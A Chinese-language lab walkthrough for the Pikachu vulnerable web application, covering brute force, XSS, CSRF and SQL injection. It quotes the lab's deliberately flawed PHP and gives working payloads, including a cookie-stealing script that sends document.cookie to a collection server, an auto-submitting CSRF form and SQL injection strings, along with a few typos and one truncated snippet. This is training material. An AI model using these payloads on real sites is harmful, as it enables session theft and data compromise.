# Pikachu漏洞靶场 
`2021年3月30日上午10点15分完稿。`
- [Burte Force(暴力破解漏洞)](#Brute_Force)
    - [基于表单的暴力破解](#基于表单的暴力破解)
    - [验证码绕过](#验证码绕过)
    - [token防爆破](#token防爆破)
- [XSS(跨站脚本漏洞)](#XSS)
    - [反射型XSS_GET](#反射型XSS_GET)
    - [反射型XSS_POST](#反射型XSS_POST)
    - [存储型XSS](#存储型XSS)
    - [DOM型XSS](#DOM型XSS)
    - [DOM型XSS-X](#DOM型XSS-X)
    - [XSS之盲打](#XSS之盲打)
    - [XSS之过滤](#XSS之过滤)
    - [XSS之htmlspecialchars](#XSS之htmlspecialchars)
    - [XSS之href输出](#XSS之href输出)
    - [XSS之js输出](#XSS之js输出)
    - [常见payload大全](#常见payload大全)
- [CSRF(跨站请求伪造)](#CSRF)
    - [CSRF_GET请求](#CSRF_GET)
    - [CSRF_POST请求](#CSRF_POST)
    - [CSRF_Token](#CSRF_Token)
- [SQL-Inject(SQL注入漏洞)](#SQL-Inject)
    - [数字型注入_POST](#数字型注入_POST)
    - [字符型注入_GET](#字符型注入_GET)
    - [搜索型注入](#搜索型注入)
    - [xx型注入](#xx型注入)
    - [insert/update/delete注入](#insert/update/delete注入)
    - [基于函数报错注入_updatexml](#基于函数报错注入_updatexml)
    - [insert注入](#insert注入)
    - [update注入](#update注入)
    - [http-header注入](#http-header注入)
    - [盲注(base_on_boolian)](#盲注(base_on_boolian))
    - [盲注(base_on_time)](#盲注(base_on_time))
    - [宽字节注入](#宽字节注入)
- [RCE(远程命令/代码执行)](#RCE)  
    - [exec之"ping"](#exec之"ping")
    - [exec之"eval"](#exec之"eval")
- [文件包含漏洞](#File_Include)
    - [本地文件包含](#本地文件包含)
    - [远程文件包含](#本地文件包含)
- [Unsafe file downloads(不安全的文件下载)](#Unsafe_file_downloads)
- [Unsafe file uploads(不安全的文件上传)](#Unsafe_file_uploads)
    -[client_check](#client_check)
    -[MIME_type](#MIME_type)
    -[getimagesize](#getimagesize)
- [over_permission(越权漏洞)](#over_permission)
    - [水平越权](#水平越权)
    - [垂直越权](#垂直越权)
- [目录遍历](#目录遍历)
- [敏感信息泄露](#敏感信息泄露)
- [序列化与反序列化](#序列化与反序列化)
- [XXE漏洞](#XXE漏洞)
- [URL重定向](#URL重定向)
- [SSRF(Server-Side Request Forgery)](#SSRF)
    -[SSRF_Curl](#SSRF_Curl)
    -[SSRF之File_get_content](#SSRF_File_get_content)

**环境搭建**

```bash
git clone https://github.com/zhuifengshaonianhanlu/pikachu
cd pikachu
docker build -t "pikachu" .    # 注意点号
docker run -d -p8080:80 pikachu
```
## Brute_Force

**漏洞描述**
**暴力破解流程**
- 确认登录接口的脆弱性
   - 登录抓包->观察验证html元素以及response信息，判断是否存在暴力破解
- 字典优化
    -根据实际情况选择最优的字典
- 工具利用掌握

**字典优化技巧**
- 根据注册提示优化，如密码至少几位，字典就去掉几位
- 账号为admin/administrator/root 概率较高，可利用这三个账号进行爆破

### 基于表单的暴力破解

### 验证码绕过
- 验证码在后台不过期，可长期使用
- 验证码检验不严，逻辑问题
- 验证码简单设计

### token防爆破
- burpsuite-> positions->attack type:pitchfork
- burpsuite-> payloads ->payload opention[recursive grep]
- burpsuite->options-grep-extract

**Resources**
- [burpsuite intruder之四种攻击方式](https://blog.csdn.net/qq284489030/article/details/82465515)
- [Pikachu漏洞联系平台实验-暴力破解](https://www.cnblogs.com/dogecheng/p/11542541.html)
- [burpsuite暴力破解之user_token](https://blog.csdn.net/weixin_43779071/article/details/97564786)


## XSS
**漏洞描述**
Cross-Site Scripting 简称为“CSS”，为避免与前端叠成样式表的缩写"CSS"冲突，故又称XSS。一般XSS可以分为如下几种常见类型：
    1.反射性XSS;
    2.存储型XSS;
    3.DOM型XSS;

XSS漏洞一直被评估为web漏洞中危害较大的漏洞，在OWASP TOP10的排名中一直属于前三的江湖地位。
XSS是一种发生在前端浏览器端的漏洞，所以其危害的对象也是前端用户。
形成XSS漏洞的主要原因是程序对输入和输出没有做合适的处理，导致“精心构造”的字符输出在前端时被浏览器当作有效代码解析执行从而产生危害。
因此在XSS漏洞的防范上，一般会采用“对输入进行过滤”和“输出进行转义”的方式进行处理:
  输入过滤：对输入进行过滤，不允许可能导致XSS攻击的字符输入;
  输出转义：根据输出点的位置对输出到前端的内容进行适当转义;

**XSS测试流程**
- 在目标上找到输入点，如查询接口、留言板
- 输入一组特殊字符(""<>6666)。查看源码看后端返回的数据是否能处理
- 通过搜索定位到唯一字符，结合唯一字符前后语法确定是否可以构造执行js的条件（构造闭合）
- 提交构造的脚本代码（以及各种绕过姿势），看是否可以成功执行，如果成功执行则说明存在XSS漏洞

### 漏洞类型
### 反射型XSS_GET

**服务端核心代码**
```php
if(isset($_GET['submit'])){
    if(empty($_GET['message'])){
        $html.="<p class='notice'>输入'kobe'试试-_-</p>";
    }else{
        if($_GET['message']=='kobe'){
            $html.="<p class='notice'>愿你和{$_GET['message']}一样，永远年轻，永远热血沸腾！</p>";
        }else{
            $html.="<p class='notice'>who is {$_GET['message']},i don't care!</p>";
        }
    }
}
```

**漏洞利用**

测试 检查对应元素，发现最大允许输入字符为20，只做了前端限制可改为最大100


尝试构造``<script>alert(/xss/)</script>"``


### 反射型XSS_POST

```php
if(isset($_POST['submit'])){
    if(empty($_POST['message'])){
        $html.="<p class='notice'>输入'kobe'试试-_-</p>";
    }else{
        if($_POST['message']=='kobe'){
            $html.="<p class='notice'>愿你和{$_POST['message']}一样，永远年轻，永远热血沸腾！</p>";
        }else{
            $html.="<p class='notice'>who is {$_POST['message']},i don't care!</p>";
        }
    }
}
```

方法同上，只是换了一种POST输出。
### 存储型XSS

**漏洞概述**

存储型与反射型的不同点在于，存储型是将输入的字符串存储到数据库后台里。

**服务端核心代码**
```php
if(array_key_exists("message",$_POST) && $_POST['message']!=null){
    $message=escape($link, $_POST['message']);
    $query="insert into message(content,time) values('$message',now())";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)!=1){
        $html.="<p>数据库出现异常,提交失败!</p>";
    }
}

if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){

    //彩蛋:虽然这是个存储型xss的页面,但这里有个delete的sql注入
    $query="delete from message where id={$_GET['id']}";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        echo "<script type='text/javascript'>document.location.href='xss_stored.php'</script>";
    }else{
        $html.="<p id='op_notice'>删除失败,请重试并检查数据库是否还好!</p>";

    }

}
```

**漏洞利用**



同样构造``<script>alert(/xss/)</script>``
### DOM型XSS

**DOM概述**

DOM(Document Object Model)全称为文档对象模型，可以理解为一个与系统平台和编程语言无关的接口，程序和脚本可以通过这个接口动态地访问修改文档内容、结构与样式，当创建好一个页面并加载到浏览器时、DOM就会把网页文档转换为一个文档对象，主要功能是处理网页内容，因此可以用JS语言来操作DOM达到目的。

DOM也可以理解为访问HTML的标准接口，DOM里面会把我们的HTML分为一个DOM树:如下图


- 以文档这棵树为入口，通过DOM某些方法对树进行操作，也就是刚刚讲的对标签添加、改变与删掉等
- DOM相当于在前端提供了一个<font color='red'> 通过JS去对HTML操作 </font>的接口

**服务端核心代码**
```html
<div id="xssd_main">
                <script>
                    function domxss(){
                        var str = document.getElementById("text").value;
                        document.getElementById("dom").innerHTML = "<a href='"+str+"'>what do you see?</a>";
                    }
                    //试试:'>
                    //试试:' onclick="alert('xss')">,闭合掉就行
                </script>
                <!--<a href="" onclick=('xss')>-->
                <input id="text" name="text" type="text"  value="" />
                <input id="button" type="button" value="click me!" onclick="domxss()" />
                <div id="dom"></div>
            </div>
```
**漏洞利用**

尝试输入""<>6666,检查元素找到注入点为:``<a href="“”<>6666">what do you see?</a>``



接着，尝试闭合语句：(都可触发xss)
```html
'>

' onclick="alert('xss')">
```
- 造成DOM型XSS的原因是前端的输入被DOM给获取到了，通过DOM又在前端输出，跟反射型和存储型比起来，它是不经过后台交互的
- 这里有个坑 审查元素看的是已经渲染过了的DOM，查看源代码能看到单引号，而审查的是双引号


### DOM型XSS-X

**服务端核心代码**

```html
<div id="xssd_main">
                <script>
                    function domxss(){
                        var str = window.location.search;
                        var txss = decodeURIComponent(str.split("text=")[1]);
                        var xss = txss.replace(/\+/g,' ');
//                        alert(xss);

                        document.getElementById("dom").innerHTML = "<a href='"+xss+"'>就让往事都随风,都随风吧</a>";
                    }
                    //试试:'>
                    //试试:' onclick="alert('xss')">,闭合掉就行
                </script>
                <!--<a href="" onclick=('xss')>-->
                <form method="get">
                <input id="text" name="text" type="text"  value="" />
                <input id="submit" type="submit" value="请说出你的伤心往事"/>
                </form>
                <div id="dom"></div>
            </div>
```

**漏洞利用**

方法同上，区别为该是直接获取URL的，但本质还是最后在href标签里。
### XSS之盲打

**概述**

盲打就是攻击者不知道后台是否存在XSS漏洞，不顾一切输入JS恶意代码在留言板、feedback等地方，尽可能寻找漏洞点，当后台管理员在操作时会触发代码，从而达到攻击者目的。

**服务端核心代码**
```php
if(array_key_exists("content",$_POST) && $_POST['content']!=null){
    $content=escape($link, $_POST['content']);
    $name=escape($link, $_POST['name']);
    $time=$time=date('Y-m-d g:i:s');
    $query="insert into xssblind(time,content,name) values('$time','$content','$name')";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        $html.="<p>谢谢参与,阁下的看法我们已经收到!</p>";
    }else {
        $html.="<p>ooo.提交出现异常,请重新提交</p>";
    }
}
```

**漏洞利用**

如果我们输入一个JS恶意代码提交到后台，管理员登录后会触发XSS漏洞，当然如果是单纯的``<script>alert(/xss/)</script>``，攻击者整个过程是看不到的，故成为盲打。

盗取Cookie payload：(需要先做一个XSS后台，这里利用pikachu自带的后台)
```js
<script>document.location = 'http://10.16.102.140/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>
```

当管理员登录后台会触发，这里我们模拟演习下登录admin/123456,观察xss后台变化。


### XSS之过滤
**一些绕过过滤思路**
```
1.前端限制绕过。抓包重放，或者修改html前端代码。如反射型XSS(get)中限制输入20个字符。
2.大小写绕过。如<SCRIPT>aLeRT(111)</sCRIpt>。后台可能用正则表达式匹配，如果正则里面只匹配小写，那就可能被绕过。
3.双写绕过。如<scri<script>pt>alert(111)</scri</script>pt>。后台可能把<script>标签去掉换，但可能只去掉一次。
4.注释绕过。如<scri<!--test-->pt>alert(111)</sc<!--test-->ript>。加上注释后可能可以绕过后台过滤机制。
```

**服务端核心代码**

```php
if(isset($_GET['submit']) && $_GET['message'] != null){
    //这里会使用正则对<script进行替换为空,也就是过滤掉
    $message=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/', '', $_GET['message']);
//    $message=str_ireplace('<script>',$_GET['message']);

    if($message == 'yes'){
        $html.="<p>那就去人民广场一个人坐一会儿吧!</p>";
    }else{
        $html.="<p>别说这些'{$message}'的话,不要怕,就是干!</p>";
    }
}
```

- 这里用preg_replace函数正则表达式过滤了``<script>``

**漏洞利用**
- 方法1：尝试大小写绕过
```js
<sCriPt>alert(/xss/)</sCript>    
```
- 方法2: 使用其它payload代替
```js

```
### XSS之htmlspecialchars

**概述**

htmlspecials()在PHP定义中是把预定义的字符转换位HTML实体的函数。

预定义的字符：
```
& （和号）成为 &amp
" （双引号）成为 &quot
' （单引号）成为 &#039
< （小于）成为 %lt
> （大于）成为 &gt

ENT_COMPAT - 默认。仅编码双引号。
ENT_QUOTES - 编码双引号和单引号。
ENT_NOQUOTES - 不编码任何引号。
```

**漏洞利用**
- 测试输入""<>'#666 ,如图所示可见被转义了,但单引号没有被转义。



- 尝试闭合语句

```js
' onclick=alert(1111) '
```


### XSS之href输出

**服务端核心代码**
```php

if(isset($_GET['submit'])){
    if(empty($_GET['message'])){
        $html.="<p class='notice'>叫你输入个url,你咋不听?</p>";
    }
    if($_GET['message'] == 'www.baidu.com'){
        $html.="<p class='notice'>我靠,我真想不到你是这样的一个人</p>";
    }else {
        //输出在a标签的href属性里面,可以使用javascript协议来执行js
        //防御:只允许http,https,其次在进行htmlspecialchars处理
        $message=htmlspecialchars($_GET['message'],ENT_QUOTES);
        $html.="<a href='{$message}'> 阁下自己输入的url还请自己点一下吧</a>";
    }
}
```

**漏洞利用**

- 测试""<>#'?666，发现全部被转义了。
- 在a标签的href属性中可以用javascript协议来执行JS
- payload如下：
```js
javascript:alert(111)
```

### XSS之js输出


**漏洞利用**

输入测试payload查看源代码如下：
```
<script>
    $ms='""<>#?'666';
    if($ms.length != 0){
        if($ms == 'tmac'){
            $('#fromjs').text('tmac确实厉害,看那小眼神..')
        }else {
//            alert($ms);
            $('#fromjs').text('无论如何不要放弃心中所爱..')
        }

    }


</script>

```

说明它是把我们输入的字符串放到JS中进行变量判断再输出。

我们可以根据这个JS代码构造对应的JS闭合语句，payload如下：

```js
'</script><script>alert(1111)</script>
```


### 常见payload大全
```js
<script>alert("xss")</script>
<script>alert(document.cookie)</script>
<a href=javascript:alert(111)>
<body onload=alert('XSS')>
WS
<div onclick="alert('xss')">
```

## CSRF
**概述**
Cross-site request forgery 简称为"CSRF"，在CSRF的攻击场景中攻击者会伪造一个请求（这个请求一般是一个链接），然后欺骗目标用户进行点击，用户一旦点击了这个请求，整个攻击就完成了。所以CSRF攻击也成为"one click"攻击。 

CSRF是借用户的权限完成攻击，攻击者并没有拿到用户的权限，而XSS是直接盗取到了用户的权限，然后实施破坏。

**利用条件**
```
1.目标站点没有对修改个人信息修改的请求进行防CSRF处理，导致该请求被伪造
> 判断对关键信息密码操作(增删改)是否容易被伪造
2.目标用户登录需要维持，若没有登录，CSRF链接便失效。
> 因此CSRF安全级别低一些。
```

**如何确认目标站点是否有CSRF漏洞**
对目标站点增删改查的地方进行标记，并观察逻辑，判断请求是否可以伪造。
- 修改管理员账号时，不需要验证旧密码
- 修改敏感信息时，不需要token验证
- 确认凭证的有效期，退出关闭容器时，Cookie与Session短期仍然有效。

## CSRF_GET

**漏洞利用**

首先作为一个普通用户，修改个人信息，抓到的URL可任意修改如下，受害者点击该URL可修改成功
```http
http://10.16.102.140/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=%E7%94%B7&phonenum=1232132131&add=%E5%8D%97%E9%80%9A&email=32321321321%40qq.com&submit=submit
```

GET请求修改个人信息，所有的参数都在URL中体现,这种利用方法比较容易。我们可以伪造这个链接，把对应参数内容修改成我们需要的值，让带有登录状态的用户访问就完成了我们的攻击。


## CSRF_POST
与GET区别，这里是POST,只能在请求body提交，我们无法构造URL链接攻击。利用方法是自己做一个表单post.html

```html
<html>
<head>
<script>
window.onload = function() {
  document.getElementById("postsubmit").click();
}
</script>
</head>
<body>
<form method="post" action="http://(目标IP)/pikachu/vul/csrf/csrfpost/csrf_post_edit.php">
    <input id="sex" type="text" name="sex" value="girl" />
    <input id="phonenum" type="text" name="phonenum" value="12345678922" />
    <input id="add" type="text" name="add" value="hacker" />
    <input id="email" type="text" name="email" value="lucy@pikachu.com" />
    <input id="postsubmit" type="submit" name="submit" value="submit" />
</form>
</body>
</html>
```



受害者访问如下vps地址就会触发POST请求

http://(VPS地址)/pikachu/doge_csrf/post.html

## CSRF_Token


- 可见多了个token值，每次请求都会增加一个随机码(随机到无法伪造)，后台会每次需要这个随机码进行验证。


## SQL-Inject

**概述**

```
在owasp发布的top10排行榜里，注入漏洞一直是危害排名第一的漏洞，其中注入漏洞里面首当其冲的就是数据库注入漏洞。

SQL注入漏洞主要形成的原因是在数据交互中，前端的数据传入到后台处理时，没有做严格的判断，导致其传入的“数据”拼接到SQL语句中后，被当作SQL语句的一部分执行。 从而导致数据库受损（被脱裤、被删除、甚至整个服务器权限沦陷）。
在构建代码时，一般会从如下几个方面的策略来防止SQL注入漏洞：
1.对传进SQL语句里面的变量进行过滤，不允许危险字符传入；
2.使用参数化（Parameterized Query 或 Parameterized Statement）；
3.还有就是,目前有很多ORM框架会自动使用参数化解决注入问题,但其也提供了"拼接"的方式,所以使用时需要慎重!
```

## 数字型注入_POST

**服务端核心代码**

```php
if(isset($_POST['submit']) && $_POST['id']!=null){
    //这里没有做任何处理,直接拼到select里面去了,形成Sql注入
    $id=$_POST['id'];
    
    $result=execute($link, $query);
    //这里如果用==1,会严格一点
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $username=$data['username'];
            $email=$data['email'];
            $html.="<p class='notice'>hello,{$username} <br />your email is: {$email}</p>";
        }
    }else{
        $html.="<p class='notice'>您输入的user id不存在,请重新输入!</p>";
    }
}
```


**漏洞利用**

payload:(以下说明存在数字型注入)
```
1'  # 报错
1 or 1 =1 # 正常
```


## 字符型注入_GET

**服务端核心代码**

```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理,直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型,需要考虑闭合
    $query="select id,email from member where username='$name'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```

**漏洞利用**
payload如下：(以下说明存在字符型注入)
```
1' #报错
1''  #正常
1' or 1='1 #正常
 ```


## 搜索型注入
```php
if(isset($_GET['submit']) && $_GET['name']!=null){

    //这里没有做任何处理,直接拼到select里面去了
    $name=$_GET['name'];

    //这里的变量是模糊匹配,需要考虑闭合
    $query="select username,id,email from member where username like '%$name%'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        //彩蛋:这里还有个xss
        $html2.="<p class='notice'>用户名中含有{$_GET['name']}的结果如下:<br />";
        while($data=mysqli_fetch_assoc($result)){
            $uname=$data['username'];
            $id=$data['id'];
            $email=$data['email'];
            $html1.="<p class='notice'>username:{$uname}<br />uid:{$id} <br />email is: {$email}</p>";
        }
    }else{

        $html1.="<p class='notice'>0o...没有搜索到你输入的信息!</p>";
    }
}
 ```

**漏洞利用**

- 这里用的是模糊匹配，任意输入单字符能匹配出与之相关的所有数据，但仍然是字符型注入

payload:  1' or 1='1 

这里也存在个xss注入点。
``'# <scirpt>alert(111)</script>``


## xx型注入

**服务端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理,直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型,需要考虑闭合
    $query="select id,email from member where username=('$name')";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
 ``` 

**漏洞利用**

payload: 1') or 1=1#
## information_schema注入

**概述**

union联合查询拿下数据库：
 ```
select username,password from user where id=1 union select 字段1,字段2 from 表名
```


**order by**

使用 union 需要知道主查询有多少个 字段，我们可以用 order by 来帮助我们猜测后台查询语句查询的字段数

```
select 字段1,字段2 from users order by 1
```

**information_schema**
在mysql中，自带的 information_schema 库里存放了大量的重要信息，如果存在注入点，我们可以访问这个表获得更多信息。

里面有三个基本表：
- SCHEMATA: 提供了MysqlSQL实例中所有数据库的信息，show databases结果来自这个表。
